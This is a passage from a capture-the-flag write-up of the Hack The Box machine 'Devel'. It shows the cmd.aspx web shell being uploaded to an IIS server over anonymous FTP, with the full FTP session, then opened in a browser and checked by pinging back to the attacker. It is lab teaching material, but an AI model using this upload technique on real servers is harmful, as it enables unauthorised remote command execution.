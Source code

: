 Looking in here we have tons of web shells, all of which have different file extensions for different use cases. For us, we are going to use the `cmd.aspx` file. The reason for this is that is because IIS runs off of ASP.NET (Active Server Page) which is an open-source, server-side web-application framework designed for web development to produce dynamic web pages. Knowing this, we can use the `cmd.aspx` web shell to ensure it properly works with the IIS web server.  From here, let's go ahead and connect to the FTP server again and put the `cmd.aspx` file into the FTP share.

```
┌──(root@kali)-[/opt/SecLists/Web-Shells/FuzzDB]
└─# ftp 10.10.10.5     

Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bri5ee): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (31.9814 MB/s)
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
05-28-21  07:39AM                 1442 cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> exit
221 Goodbye.
```

With the file there, let's try to navigate to it by going to `http://10.10.10.5/cmd.aspx`. 

<p align="center">
  <img src="{{ site.github.url }}/images/htb/devel/image-20210527213741844.png" />
</p>


And we have our nifty little web shell. We can see if it properly functions by trying to ping ourselves and running a `tcpdump` which will capture packets coming from our VPN network interface.

<p align="center">
  <img src="{{ site.github.url }}/images/htb/devel/image-20210527213849690.png" />
</p>


Here you would want to put your own IP whatever that may be. Then we are going to run the following command to make sure we are capturing only pings from our `tun0` (HTB VPN) network interface.
